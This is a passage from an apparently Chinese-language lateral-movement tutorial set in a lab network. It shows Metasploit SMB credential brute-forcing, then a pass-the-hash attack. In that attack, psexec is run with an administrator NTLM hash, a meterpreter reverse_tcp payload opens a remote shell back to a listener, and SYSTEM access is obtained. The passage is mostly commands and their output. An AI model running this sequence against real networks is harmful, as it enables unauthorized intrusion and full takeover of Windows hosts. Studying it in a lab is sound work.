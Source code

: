 ```plain
[*] 10.10.4.0/24:445      - Scanned 131 of 256 hosts (51% complete)
[*] 10.10.4.0/24:445      - Scanned 163 of 256 hosts (63% complete)
[*] 10.10.4.0/24:445      - Scanned 182 of 256 hosts (71% complete)
[*] 10.10.4.0/24:445      - Scanned 205 of 256 hosts (80% complete)
[*] 10.10.4.0/24:445      - Scanned 232 of 256 hosts (90% complete)
[*] 10.10.4.0/24:445      - Scanned 256 of 256 hosts (100% complete)
[*] 10.10.4.0/24:445      - Bruteforce completed, 4 credentials were successful.
[*] 10.10.4.0/24:445      - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed

```

# 三、利用PTH进行横向移动
## 1、使用MSF进行PTH
```plain
msf6 auxiliary(scanner/smb/smb_login) > use exploit/windows/smb/psexec
[*] Using configured payload windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set rhost 10.10.4.21
rhost => 10.10.4.21
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > set smbpass  aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
smbpass => aad3b435b51404eeaad3b435b51404ee:27d86657f458a28aeed03655ba6a6137
msf6 exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 10.10.4.10:4444
[*] 10.10.4.21:445 - Connecting to the server...
[*] 10.10.4.21:445 - Authenticating to 10.10.4.21:445 as user 'administrator'...
[*] 10.10.4.21:445 - Selecting PowerShell target
[*] 10.10.4.21:445 - Executing the payload...
[+] 10.10.4.21:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.4.21
[*] Meterpreter session 1 opened (10.10.4.10:4444 -> 10.10.4.21:49777) at 2025-04-28 13:33:30 -0400

meterpreter > shell
Process 3396 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.5737]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```
